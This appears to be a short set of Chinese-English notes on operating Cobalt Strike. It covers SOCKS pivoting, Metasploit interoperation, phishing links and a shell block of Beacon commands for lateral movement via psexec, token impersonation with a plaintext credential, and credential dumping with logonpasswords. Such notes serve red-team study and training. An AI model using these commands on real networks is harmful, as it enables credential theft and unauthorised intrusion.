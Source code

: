 ### 代理服务器

Pivoting->SOCKS Server # 这时监听的 ip 是 cs 服务器 ip

### 与 MSF 联动

[Interoperability with the Metasploit Framework](https://www.cobaltstrike.com/blog/interoperability-with-the-metasploit-framework/)

### 钓鱼攻击/Clone Site

https://blog.csdn.net/B_2013617/article/details/117079467
https://www.youtube.com/watch?time_continue=2&v=fnCLdPOmZOk&feature=emb_logo
[MSF 上线 CS_adobe flash](https://www.youtube.com/watch?v=fnCLdPOmZOk&t=2s)
erwerwer

## Beacon/Cmd

[Link](https://www.cnblogs.com/icui4cu/p/16056428.html)
[Cobalt Strike Beacon 命令](https://wbglil.gitbook.io/cobalt-strike/cobalt-strikemo-kuai-jie-shao)

Bind TCP Beacon 对应的是 connect 和 unlink.

```shell
# ec2 - smb 是一个Listener
beacon > jump psexec64 FILESERVER ec2 - smb

beacon > link [host] [port]    # beacon_smb/bind_pipe
beacon > connect [host] [port] # Link to a Beacon peer, 对应  beacon_tcp/bind_tcp
beacon > unlink 10.10.10.191 1052 # De-link to a Beacon peer
beacon > rev2self # 恢复原始令牌

beacon > make_token teamssix\administrator Test123!
beacon > jump psexec_psh 192.168.175.200 smb
beacon > logonpasswords
```

- Agent Context
  - cd, pwd, setenv

* File System
  - cp,drives,is,mkdir,mv,rm
  - download,upload

- Process Management
  - kill,ps
- Query the Registry

  - reg query,reg queryv
    <br><br>

- Console Tips
  - `Ctrl+D` closes the console (or other active tab)
  - `Ctrl+K` clears the console screen
  - `Ctrl+F` opens a find tool to search the console (works in most other tabs too)
- Beacon Management
  - Use the `clear` command if you mess up

